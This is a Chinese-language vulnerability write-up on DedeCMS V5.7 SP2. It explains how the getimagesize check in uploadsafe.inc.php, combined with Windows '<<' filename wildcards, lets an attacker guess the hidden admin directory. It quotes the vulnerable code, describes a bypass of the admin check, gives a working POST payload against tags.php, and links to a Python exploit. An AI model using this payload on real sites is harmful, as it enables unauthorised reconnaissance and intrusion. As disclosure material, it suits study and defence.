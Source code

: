 ## 解决DEDECMS历史难题--找后台目录
### 利用限制
* 仅针对windows系统

* DedeCMS目前下载的最新版的还存在此问题。（DedeCMS-V5.7-UTF8-SP2.tar.gz ）在网盘里找相应名字的就行

### 漏洞成因
首先看核心文件common.inc.php 大概148行左右

```php
	if($_FILES)
	{
	    require_once(DEDEINC.'/uploadsafe.inc.php');
	}
```
跟进uploadsafe.inc.php文件，25行

```php
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
{
    exit('Request var not allow for uploadsafe!');
}
$$_key = $_FILES[$_key]['tmp_name']; //获取temp_name 
${$_key.'_name'} = $_FILES[$_key]['name'];
${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
if(empty(${$_key.'_size'}))
{
    ${$_key.'_size'} = @filesize($$_key);
}
$imtypes = array
(
    "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
    "image/xpng", "image/wbmp", "image/bmp"
);
if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
{
    $image_dd = @getimagesize($$_key); 
    //问题就在这里，获取文件的size，获取不到说明不是图片或者图片不存在，不存就exit upload.... ,利用这个逻辑猜目录的前提是目录内有图片格式的文件。
    if (!is_array($image_dd))
    {
        exit('Upload filetype not allow !');
    }
}
......
```

出发点是找个可以利用<<通配符猜解后台目录，所以只要`$$_key`参数可控就可以达到目的。

但在这之前有个`if(!defined('DEDEADMIN'))`的判断,这个很好绕过设置name为0就可以绕过。

因为这块第一个if判断`$_key.'_name'`是否为空，为空就不往下进行判断，所以给name赋值0就可以绕过了。

```php
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
```
最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回tag.php正常页面。当不存在的时候返回：Upload filetype not allow !

### POC
	http://localhost/dedecms/tags.php
	
	post:
	
	dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif

Common.inc.php 是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

上面是作者的原POC，有个小问题需要注意一下，POST的是tags.php 属于根目录下的文件，在根目录下没有tags.php的情况下，需要找一个包含common.inc.php的文件，在这种情况下只能找二级目录下的文件，例如：/plus /include

漏洞作者给的exp是PHP版本，[Dedecms找后台目录漏洞python版](https://github.com/zmzsg100/Cms-vuln-and-EXP/blob/master/find_dedeadmin.py) <-这是我的python版本